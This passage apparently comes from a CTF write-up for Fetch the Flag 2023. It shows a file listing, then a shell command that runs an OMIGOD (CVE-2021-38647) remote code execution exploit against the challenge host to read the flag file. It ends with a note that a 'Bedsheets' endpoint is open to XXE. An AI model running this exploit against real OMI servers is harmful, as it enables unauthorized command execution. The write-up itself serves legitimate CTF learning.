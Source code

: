 ```bash
    10725      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:03/tty/ttyS0/flags
    10845      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:06/tty/ttyS3/flags
    10765      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:04/tty/ttyS1/flags
   156674      0 -rw-r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/virtual/net/lo/flags
   156840      0 -rw-r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/virtual/net/eth0/flags
     1525      0 -rw-r--r--   1 root     root         4096 Oct 28 15:35 /sys/module/scsi_mod/parameters/default_dev_flags
  1266105      0 -rw-r--r--   1 root     root            0 Oct 28 15:35 /proc/sys/kernel/acpi_video_flags
  1266251      0 -rw-r--r--   1 root     root            0 Oct 28 15:35 /proc/sys/net/ipv4/fib_notify_on_flag_change
  1266532      0 -rw-r--r--   1 root     root            0 Oct 28 15:35 /proc/sys/net/ipv6/fib_notify_on_flag_change
4026532031      0 -r--------   1 root     root            0 Oct 28 15:35 /proc/kpageflags

┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023/CVE-2021-38647]
└─$ python omigod.py -t challenge.ctf.games -c 'cat /opt/omi/flag.txt'|sed 's/&#10;/\n/g'
flag{6fd9ffb9b8e946b5c61bb7826eff78f0}
```

## Bedsheets

### XXE

`/createSheets` accepts user input which causes XXE

![](attachment/10431c22cc789f1f47cc361dd7789f14.png)
